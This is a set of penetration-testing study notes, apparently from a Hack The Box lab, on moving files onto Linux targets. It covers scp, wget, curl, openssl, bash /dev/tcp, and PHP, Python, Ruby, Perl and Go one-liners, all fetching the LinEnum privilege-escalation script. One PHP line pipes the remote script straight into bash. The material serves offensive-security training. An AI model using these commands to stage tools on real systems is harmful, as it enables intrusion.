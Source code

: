 ```yaml
---
category: Uncategorized
tags: []
---
```

# Linux File Transfer Methods

## SCP

### Download file via SCP from a remote server
````bash
scp <user>@<IP-ADDRESS>:/path/to/file <output_file_on_system>
````
### Upload file via SCP to a remote system
````bash
scp <local_file_on_system> <user>@<IP-ADDRESS>:/path/for/uploaded_file
````

## Wget / cURL

Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.
````bash
Ryohei@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
````bash
Ryohei@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

## OpenSSL

OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### Create certificate
````bash
Ryohei@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
````
### Stand up server
````bash
Ryohei@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
````
### Download file
````bash
Ryohei@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
````
## Bash (/dev/tcp)
There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

### Connect to Target's Webserver
````bash
Ryohei@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
````
### HTTP GET Request
````bash
Ryohei@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
````
### Print the Response
````bash
Ryohei@htb[/htb]$ cat <&3
````

## PHP
PHP is also very prevalent and provides multiple file transfer methods.

### File_get_contents()
````bash
Ryohei@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
````
### Fopen()
````bash
Ryohei@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
````
If the php-curl module has been installed, this can alternatively be used.

### Php-curl
````
Ryohei@htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
````
It is also possible to retrieve each line as an array and pipe the output to bash.

````
Ryohei@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
````

## Python
Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2
````bash
Ryohei@htb[/htb]$ python2
````
````python
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````
### Python 3
````bash
Ryohei@htb[/htb]$ python3
````
````python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````

## Other Languages
Ruby, Perl, and Golang are some other popular languages that can also transfer files.

### Ruby
````bash
Ryohei@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
````
### Perl
````bash
Ryohei@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
````
### Go
````go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
````
